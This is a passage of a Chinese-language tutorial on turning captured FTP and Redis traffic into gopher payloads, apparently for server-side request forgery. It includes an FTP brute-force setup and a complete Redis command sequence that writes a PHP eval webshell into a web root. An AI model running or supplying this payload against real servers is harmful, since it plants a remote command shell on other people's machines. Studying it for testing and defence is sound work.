 首先，先在FTP的服务器上测试一下访问FTP的流量情况，对其进行抓包处理。

  * 

    
    
    curl ftp://vsftp:vsftp@127.0.0.1/ 【vsftp账号：vsftp密码】

![](https://gitee.com/fuli009/images/raw/master/public/20220924223522.png)

右键 Follow tcp steam ,保存为ASCII格式,这里我们只保留 USER PASSQUIT这3个字符用于加快爆破返回速度。  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223524.png)

按照规则转换成gopher码，再放入BP中需要对其进行一次转码进行爆破。

![](https://gitee.com/fuli009/images/raw/master/public/20220924223525.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220924223526.png)

  

##

 **REDIS**

##

常见的写入webshell脚本。

  *   *   *   *   * 

    
    
    flushall  set 1 '<?php eval($_GET["cmd"]);?>'  config set dir /www/wwwroot/  config set dbfilename shell.php  save

用wireshark捕捉lo0，再写入：  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223528.png)

右键定位tcp跟踪流：

![](https://gitee.com/fuli009/images/raw/master/public/20220924223529.png)

按之前的方法转换成gopher码后，成功生成shell.php。

![](https://gitee.com/fuli009/images/raw/master/public/20220924223530.png)

当然我们也可以利用gopherus直接生成gopher码

  * 

    
    
    https://github.com/tarunkant/Gopherus

![](https://gitee.com/fuli009/images/raw/master/public/20220924223531.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220924223534.png)
